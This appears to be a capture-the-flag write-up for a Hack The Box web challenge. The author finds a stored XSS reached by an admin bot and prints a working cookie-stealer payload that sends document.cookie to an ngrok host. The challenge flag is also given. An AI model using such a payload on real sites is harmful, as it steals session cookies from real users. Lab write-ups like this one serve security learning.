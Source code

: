 ![image](https://user-images.githubusercontent.com/80063008/144764849-fc409f2a-bb96-454c-b08c-2564c1a7edd7.png)


According to the index.js in challenges/routes, we can do a POST request on /api/submit with a query in the body.

![image](https://user-images.githubusercontent.com/80063008/144764914-7cb584f9-4a76-47d3-b59c-4dbee8e1968c.png)


I did so and I get the message that it was successful.

![image](https://user-images.githubusercontent.com/80063008/144764868-64267912-6d59-4ee8-bad6-27dffeb2d946.png)


The website looks like this:

![image](https://user-images.githubusercontent.com/80063008/144764871-04b74273-507a-4cc6-b341-ea9e462b6d01.png)


Clicking on the back of the elves, makes a window pop-up where we can send the post request mentioned in the source code:

![image](https://user-images.githubusercontent.com/80063008/144764874-fb07cbcd-f99c-47f2-95b7-61f2d48d608d.png)


The bot.js file source code looks like this: It seems to be accessing the queries page which is where we send our post request message and he has a cookie which is the flag itself.

![image](https://user-images.githubusercontent.com/80063008/144764886-5fe6e139-a7fa-427b-bc51-0a66bf180089.png)


We can't go to the queries page because only localhost can do that.

![image](https://user-images.githubusercontent.com/80063008/144764901-068ff5de-ac1e-48cb-9e34-e8d93633892c.png)


I disabled that filter on my local instance so that I can see the output of our messages. Tried XSS and saw that it is triggered. Using the syntax below, we were able to get our fake flag after setting up a http python server and ngrok. Basically I was able to steal the cookie via xss.

![image](https://user-images.githubusercontent.com/80063008/144764953-4127bbc0-561b-4cc7-a115-8eacecc3def0.png)

XSS Cookie Stealer payload:

```javascript
<script type="text/javascript">document.location="http://a417-2a02-2f0e-de00-fa00-b2bc-3b79-670f-3c60.ngrok.io/?c="+document.cookie;</script>
```

Re-ran the same syntax on the remote instance and got the legit flag. I didn't need to bypass the localhost filter at all.
![image](https://user-images.githubusercontent.com/80063008/144764957-5d3beb2f-2c47-4e15-a459-4b224b88204f.png)


HTB{3v1l_3lv3s_4r3_r1s1ng_up!}

